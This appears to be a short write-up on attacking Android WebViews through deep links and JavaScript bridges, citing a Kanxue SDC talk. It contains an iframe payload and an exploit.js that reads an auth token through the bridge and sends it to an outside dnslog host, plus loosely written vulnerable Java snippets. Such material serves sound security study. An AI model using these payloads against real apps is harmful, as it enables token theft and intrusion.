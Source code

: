 ## Process
```mermaid
graph TD;
    Evil-html-->Call-by-DeepLink-Scheme;
    Call-by-DeepLink-Scheme-->Activity;
    Activity-->WebView;
    WebView-->Execute-JS;
    XSS-in-WhiteList-->Execute-JS;
    Execute-JS-->JsInterface;
    JsInterface-->window.getToken;
    JsInterface-->window.downloadFile;
    window.getToken-->Java-interface;
    window.downloadFile-->Java-interface;
```
## payload
- Evil.html
```html
<iframe src= "jayway://openapp/activity?param= {"activity": "com.jayway.JsBridge", "url": "http://whitelist.com/xss=exploit.js"} ">
```
- exploit.js
```javascript
function evil(){
   var data = window.JsInterface.getToken();
   document.body.appendCild(document.createElement("img")).src= "http://xx.dnslog.cn?data=" + data;
  }
```
- Result: Accesslog of dnslog.cn
```
 GET /data={Token="xxxxx"}
```

## Code
- DeepLink Attack Input
```java
public static deeplink(){
 Intent intent = this.getIntent();
 Uri uri = intent.getData();
 String scheme = uri.getScheme();
 String host = uri.getHost();
 if (scheme = "jayway" && host = "openapp") 
    param = uri.getQueryParameter("param");
}
   WebView webView = new Webview();
   WebSettings webSettings = webView.getSettings();
   webSettings.setJavaScriptEnabled(true);
# case 1 : parse any url  
   webView.loadUrl(param);
# case 2 : load any activity by deeplink
   Intent intent2 = new Intent();
   intent2.setData(Uri.parse(param));  #User-controlled
   this.startActivity(intent2);
```

- Malicious Activity
```java
private boolean rce(){
 Intent intent = this.getgetIntent();
 String str = intent.getStringExtra("param2");
 this.a = Class.forName(str).newInstance;
}
```

- JsBridge
```java
1. Get sensitive info
public String getKey(){
 if (com.jayway.utils.isWhiteList(this.url)){
   String json = new JsonObject();
   String token = com.jayway.info.getInstance().getToken();
   json.put("token",token)
   return json.toString();  
  }
}
```




- [2020 看雪SDC议题回顾 | Android WebView安全攻防指南2020](https://zhuanlan.kanxue.com/article-14155.htm)
